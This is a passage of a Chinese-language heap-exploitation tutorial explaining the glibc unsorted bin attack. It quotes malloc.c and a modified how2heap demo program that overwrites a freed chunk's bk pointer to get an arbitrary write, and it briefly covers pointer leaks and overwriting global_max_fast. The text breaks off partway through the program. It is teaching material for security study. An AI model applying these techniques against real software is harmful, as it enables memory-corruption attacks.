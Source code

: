 另外，如果我們無法做到訪問鏈表尾，但是可以訪問鏈表頭，那麼在 32 位的環境下，對鏈表頭進行 `printf` 等往往可以把 `fd` 和 `bk` 一起輸出出來，這個時候同樣可以實現有效的 leak。然而在 64 位下，由於高地址往往爲 `\x00`，很多輸出函數會被截斷，這個時候可能就難以實現有效 leak。

## Unsorted Bin Attack 原理

在  [glibc](https://code.woboq.org/userspace/glibc/)/[malloc](https://code.woboq.org/userspace/glibc/malloc/)/[malloc.c](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html) 中的 `_int_malloc ` 有這麼一段代碼，當將一個 unsorted bin取出的時候，會將 `bck->fd` 的位置寫入本 Unsorted Bin 的位置。

```C
          /* remove from unsorted list */
          if (__glibc_unlikely (bck->fd != victim))
            malloc_printerr ("malloc(): corrupted unsorted chunks 3");
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

換而言之，如果我們控制了 bk 的值，我們就能將 `unsorted_chunks (av)` 寫到任意地址。



這裏我以 shellphish 的 how2heap 倉庫中的 [unsorted_bin_attack.c](https://github.com/shellphish/how2heap/blob/master/unsorted_bin_attack.c) 爲例進行介紹，這裏我做一些簡單的修改，如下

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  fprintf(stderr, "This file demonstrates unsorted bin attack by write a large "
                  "unsigned long value into stack\n");
  fprintf(
      stderr,
      "In practice, unsorted bin attack is generally prepared for further "
      "attacks, such as rewriting the "
      "global variable global_max_fast in libc for further fastbin attack\n\n");

  unsigned long target_var = 0;
  fprintf(stderr,
          "Let's first look at the target we want to rewrite on stack:\n");
  fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);

  unsigned long *p = malloc(400);
  fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",
          p);
  fprintf(stderr, "And allocate another normal chunk in order to avoid "
                  "consolidating the top chunk with"
                  "the first one during the free()\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                  "unsorted bin with its bk pointer "
                  "point to %p\n",
          (void *)p[1]);

  /*------------VULNERABILITY-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                  "victim->bk pointer\n");
  fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                  "machine, it should be target address-8):%p\n\n",
          (void *)p[1]);

  //------------------------------------

```